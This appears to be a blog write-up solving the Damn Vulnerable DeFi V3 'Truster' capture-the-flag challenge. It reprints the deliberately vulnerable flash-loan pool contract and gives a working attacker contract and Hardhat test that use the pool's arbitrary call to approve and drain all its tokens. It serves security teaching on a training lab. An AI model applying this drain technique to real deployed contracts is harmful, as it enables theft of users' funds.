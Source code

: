 ```yaml
---
title: Damn Vulnerable DeFi V3 - Truster - Solution
date: '2023-11-27'
tags: ['security', 'solidity', 'ctfs']
draft: false
summary: Solution to the Damn Vulnerable DeFi V3 - Truster CTF
---
```


# Damn Vulnerable DeFi V3 - Truster - Solution

## Contract

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "@openzeppelin/contracts/utils/Address.sol";
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";
import "../DamnValuableToken.sol";

/**
 * @title TrusterLenderPool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract TrusterLenderPool is ReentrancyGuard {
    using Address for address;

    DamnValuableToken public immutable token;

    error RepayFailed();

    constructor(DamnValuableToken _token) {
        token = _token;
    }

    function flashLoan(uint256 amount, address borrower, address target, bytes calldata data)
        external
        nonReentrant
        returns (bool)
    {
        uint256 balanceBefore = token.balanceOf(address(this));

        token.transfer(borrower, amount);
        target.functionCall(data);

        if (token.balanceOf(address(this)) < balanceBefore) {
            revert RepayFailed();
        }

        return true;
    }
}
```

## Solution

To solve this challenge, note that `flashLoan` allows for arbitrary function calls on the `target` contract. In other words, by calling `flashLoan`, we can make arbitrary function calls on the `TrusterLenderPool` contract's behalf.

In particular, we can approve an attacker contract for the entire pool balance of DVT tokens! (Notice that we need to specify `amount = 0` when calling `flashLoan` for this to work. Otherwise, we'll trigger the `RepayFailed()` error.)

Once `TrusterLenderPool` has approved us to transfer funds on its behalf, we can use `transferFrom` to drain the entire pool.

_TrusterAttacker.sol_

```solidity
// SPDX-License-Identifier: UNLICENSE
pragma solidity ^0.8.0;

import "../DamnValuableToken.sol";
import "./TrusterLenderPool.sol";

contract TrusterAttacker {
    DamnValuableToken public immutable token;
    TrusterLenderPool public immutable pool;

    constructor(DamnValuableToken _token, TrusterLenderPool _pool) {
        token = _token;
        pool = _pool;
    }

    function attack() external {
        bytes memory data = abi.encodeWithSignature("approve(address,uint256)", address(this), 1_000_000 ether);
        pool.flashLoan(0, address(this), address(token), data);
        token.transferFrom(address(pool), msg.sender, 1_000_000 ether);
    }
}
```

_truster.challenge.js_

```javascript
const { ethers } = require('hardhat')
const { expect } = require('chai')

describe('[Challenge] Truster', function () {
  let deployer, player
  let token, pool

  const TOKENS_IN_POOL = 1000000n * 10n ** 18n

  before(async function () {
    /** SETUP SCENARIO - NO NEED TO CHANGE ANYTHING HERE */
    ;[deployer, player] = await ethers.getSigners()

    token = await (await ethers.getContractFactory('DamnValuableToken', deployer)).deploy()
    pool = await (
      await ethers.getContractFactory('TrusterLenderPool', deployer)
    ).deploy(token.address)
    expect(await pool.token()).to.eq(token.address)

    await token.transfer(pool.address, TOKENS_IN_POOL)
    expect(await token.balanceOf(pool.address)).to.equal(TOKENS_IN_POOL)

    expect(await token.balanceOf(player.address)).to.equal(0)
  })

  it('Execution', async function () {
    /** CODE YOUR SOLUTION HERE */
    attacker = await (
      await ethers.getContractFactory('TrusterAttacker', deployer)
    ).deploy(token.address, pool.address)

    await attacker.connect(player).attack()
  })

  after(async function () {
    /** SUCCESS CONDITIONS - NO NEED TO CHANGE ANYTHING HERE */

    // Player has taken all tokens from the pool
    expect(await token.balanceOf(player.address)).to.equal(TOKENS_IN_POOL)
    expect(await token.balanceOf(pool.address)).to.equal(0)
  })
})
```
